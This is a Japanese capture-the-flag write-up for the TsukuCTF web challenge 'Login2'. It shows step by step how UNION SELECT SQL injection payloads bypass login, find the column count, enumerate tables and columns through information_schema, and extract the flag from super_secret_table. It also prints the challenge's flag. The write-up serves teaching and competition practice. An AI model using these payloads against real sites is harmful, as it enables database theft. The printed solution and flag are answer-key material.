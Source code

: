 ```yaml
---
title: Login2
description: union select  によるSQLi
author: rikuta0811_dash
genre: Web
solver: 21
point: 323
---
```


# Login 2

> 筑紫君が自分の会員制サイトを修正したんだって。でもどうやら何が問題だったのかわかっていないみたいですよ?
> 
> https://tsukuctf.sechack365.com/problems/login2
> 
> ※ この問題では/problems/login2以下のみを用います。 他の問題/problems/<name>などと混同しないよう注意してください。

Login 1 ~ 3がセットでSQL injectionの問題になっています。
Login2では、SQL injectionが可能な場所を見つけた後に、適切なInjectionによりデーターベース内の情報を探索することでflagを得ることができます。

まずUsernameに``` ' or 1=1 ; -- ```を指定すると、図のようなログイン画面![login2](./login2.png)が表示されます。どうやらここにSQLiができそうです。
```UNION SELECT``` で情報を抜くために、まずSELECT文のカラム数を特定します。
Usernameとして ```' union select null ; -- ```,  ```' union select null, null ; -- ```,  ```' union select null, null, null ; -- ```  ...とnullの数を増やしていくと、nullが2個のときにログインに成功します。
これにて攻撃の準備は完了です。ここからは、データベース内を探索していきます。

MySQL内のデータに関する情報は、```information_schema.columns```というテーブルに収納されています。まずは、ここの```table_name```というカラムを見るのが定石です。ということで、Usernameに

```
' UNION SELECT table_name, null FROM information_schema.columns; -- 
```
を入力してログインすると、```super_secret_table```というテーブルがあることがわかります。多分flagはここでしょう。
次に、カラム名を知るために、Usernameを

```
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'super_secret_table'; -- 
```
としてログインします。すると、idとsecretというカラムがあることがわかります。
最後に、

```
' UNION SELECT secret, null FROM super_secret_table; -- 
```

とすればflagがゲットできます。

```txt
TsukuCTF{50_muCh_GR3AT_Hacker_!ND3ED}
```